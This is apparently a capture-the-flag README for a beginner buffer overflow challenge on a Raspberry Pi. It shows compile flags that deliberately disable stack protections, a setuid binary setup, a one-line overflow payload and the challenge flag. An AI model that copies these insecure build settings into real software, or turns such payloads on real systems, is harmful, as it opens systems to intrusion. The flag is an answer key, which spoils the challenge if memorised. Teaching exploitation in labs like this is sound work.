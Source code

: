 # BufferOverflow1
This challenges introduces a standard buffer overflow to the player.
**Description of the Challenge:**
How do I redirect code execution?

## Setup
The challenge is running on a Raspberry Pi 3. Therefore, the player needs to connect to the RPI via SSH and exploit the challenge. The player was granted with limited privileges. As a result, he/she is not able to read the content of the file *flag.txt*.

### Configuration on Raspberry Pi 3
**Compile without security features:**
```sudo gcc challenge1.c -z execstack -z norelro -fno-stack-protector -D_FORTIFY_SOURCE=0 -ggdb -o challenge1```

**Set *flag.txt* to read-only:**
```sudo chmod 440 flag.txt```

**Set privileges for the *challenge1* binary to 751 (rwxr-x--r):**
```sudo chmod 751 challenge1```

**Set uid flag to allow the binary to read the flag:**
```sudo chmod u+s challenge1```

## Solution
* Connect to the RPI via SSH:
```ssh challenge2@<IP>```

* The following payload was working on the CTF RPI. The number of requried `A`'s might differ from system to system. 
```./challenge1 $(python -c 'print "A"*16+"\xad\xde\xed\xfe"')```

## Flag
THICTF{y0ur_first_buff3r_overfl0w}

